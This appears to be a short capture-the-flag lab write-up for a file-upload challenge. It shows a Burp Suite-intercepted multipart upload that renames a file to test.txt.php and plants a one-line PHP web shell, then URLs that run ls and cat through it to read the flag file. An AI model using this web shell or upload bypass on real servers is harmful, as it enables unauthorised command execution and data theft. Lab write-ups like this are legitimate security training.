




# Lab Writeup – File Upload 2

## Overview

Platform: CyberJutsu  
Difficulty: Easy

---



---

## 1. Upload File test.txt and Press submit



---

## 2. Capture packets in Burp Suite and send an HTTP POST request

```
------WebKitFormBoundarygVp5wmLWtdUlgQOI
Content-Disposition: form-data; name="file"; filename="test.txt.php"
Content-Type: text/plain

<?php system($_GET[x]); ?>
------WebKitFormBoundarygVp5wmLWtdUlgQOI--
```



---

## 3. Access file test.txt.php and add parameter for url

```
https://www.../test.php?x=ls%20-la%20
```



---

## 4. Find and Read secret.txt to get FLAG

```
https://www.../test.php?x=cat%20/1ad7e7cd851-secret.txt
```
